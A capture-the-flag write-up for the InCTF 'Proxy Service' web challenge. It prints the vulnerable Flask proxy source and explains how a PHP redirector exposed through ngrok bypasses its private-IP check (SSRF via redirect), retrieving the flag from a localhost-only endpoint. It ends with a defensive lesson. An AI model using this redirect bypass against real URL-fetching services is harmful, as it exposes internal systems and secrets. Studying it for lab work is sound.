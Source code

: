 ```yaml
---
title: Proxy Service
date: 2021-09-02 11:20:05 +0530
categories: [inctf,web,ssrf]
tags: [CTFTIME WRITEUP]
excerpt: Web Challenge
---
```


## 🕵️ Challenge: Proxy Service
![Challenge UI](https://github.com/user-attachments/assets/a18fe345-15ec-47b5-b11d-c16b675c400e)

**Description:**

> I developed this proxy service for InCTF players.  
> You can use it to proxy anything on the internet.  
> But I'm sure that you will not be able to find my secret. If you can prove me wrong, the flag is all yours!  
> I'm so confident that I have even attached the source code somewhere.  
> Let the game begin.  
>  
> **Flag format:** `inctf{*}`

<!--
<div align="center">
  <img src="images/3.png" alt="Proxy Service Web Interface" width="80%" />
</div>
-->
![image](https://github.com/user-attachments/assets/0bd67937-ed89-4788-90eb-a7b1c2ad9574)

---

## 🔍 Challenge Page

Opening the challenge leads to a web page that claims to proxy a URL and return its content.

![image](https://github.com/user-attachments/assets/a0467bbc-05d2-4258-ac96-490a7df981d4)

---

## 📜 Source Code Found via `/viewsource`

Inspecting the frontend revealed a hidden path hint in an HTML comment.

![image](https://github.com/user-attachments/assets/9e8b48cf-69e9-419e-8774-3ca18bf8fef5)


Visiting `/viewsource` discloses the Python backend logic:

```python
from flask import Flask, request, render_template, Response
from urllib.parse import urlparse
import ipaddress
import os
import requests
import time
import socket

app = Flask(__name__)

# Original flag in env variable
str_flag = os.getenv("FLAG", "inctf{this_is_fake_flag}")

@app.route("/")
def home():
    return render_template("index.html")

@app.route("/proxy", methods=["POST"])
def do_request():
    try:
        url = request.form["url"]
        domain = urlparse(url).netloc

        if ":" in domain:
            domain = domain.split(":")[0]

        ip = socket.gethostbyname(domain)

        # block access to internal IPs
        if ipaddress.ip_address(ip).is_private or url.startswith("http") == False:
            return render_template("index.html", message="Access denied !")
        else:
            # Prevent Denial-of-Service attack
            time.sleep(3)
            print("Requesting: ", ip)
            r = requests.get(url)
            body = r.text
            return body

    except:
        return render_template("index.html", message="Some error occured")

@app.route("/viewsource")
def source():
    resp = Response(open("app.py").read())
    resp.headers['Content-Type'] = 'text/plain'
    return resp

@app.route("/gimme_tha_fleg")
def flag():
    # Allow flag access to internal IPs only
    if request.access_route[-1] == "127.0.0.1":
        return f"Welcome, {request.access_route[-1]}. Your flag is <code>{str_flag}</code>"
    else:
        return "Get outta here!", 403

if __name__ == "__main__":
    app.run(debug=False)

```
---

## 🔍 Vulnerability Analysis

Let’s break down the logic inside the proxy backend:

```python
ip = socket.gethostbyname(domain)
if ipaddress.ip_address(ip).is_private or url.startswith("http") == False:
    return render_template("index.html", message="Access denied!")
```

Here’s what it tries to do:

- Blocks **private/internal IPs** (e.g. 127.0.0.1, 192.168.0.0/16, etc.)
- Requires URLs to start with `http`

However, this **only checks the resolved IP** of the **initial domain**, not if it redirects to internal services!

---

## 🔄 Exploiting SSRF via Redirects

We host a PHP redirector locally:

```php
<?php header("Location: http://localhost/gimme_tha_fleg"); ?>
```

Save this as `index.php` and start a local PHP server:

![image](https://github.com/user-attachments/assets/097a8093-985b-4478-b3f6-d5581e903615)


```bash
php -S localhost:8080
```

Then we expose it to the internet using **ngrok**:

```bash
ngrok http 8080
```

![image](https://github.com/user-attachments/assets/a0d8cd44-35f0-445e-bef8-d82fa234203e)


---

## 🎯 Exploiting the Challenge

Now, enter the ngrok URL into the proxy field:

![image](https://github.com/user-attachments/assets/0945edea-3ee8-4dd7-98f8-7337f2fb2046)


The backend:

1. Resolves the ngrok domain (a public IP)
2. Allows the request ✅
3. Follows the HTTP 302 redirect to `http://localhost/gimme_tha_fleg`
![image](https://github.com/user-attachments/assets/7799d6fd-d629-4209-9173-61ddc1c5f849)

4. Since `request.access_route[0] == 127.0.0.1`, the flag is returned

---

## 🏁 Flag

After successful redirection, the response reveals the flag:

```html
Welcome, 127.0.0.1 Your flag is inctf{i_hacked_a_proxy_service_and_all_i_got_is_this_flag_:/}
```
![image](https://github.com/user-attachments/assets/0d22b2dd-8aca-4421-aa90-276930da0987)

---

## ✅ Summary

- Vulnerability: **SSRF with open redirect bypass**
- Server only blocks **initial domain resolution**, not redirects
- Using a **redirector**, we hit an internal endpoint from the outside

> **Lesson:** Always check the final destination of redirects, not just the first hop.

---

## 🎥 Video Walkthrough

Watch the full walkthrough here: [YouTube Link 🔗](https://youtu.be/EBxGCKXRG44?si=i3aW5L1ybAZ6e6I7)

---
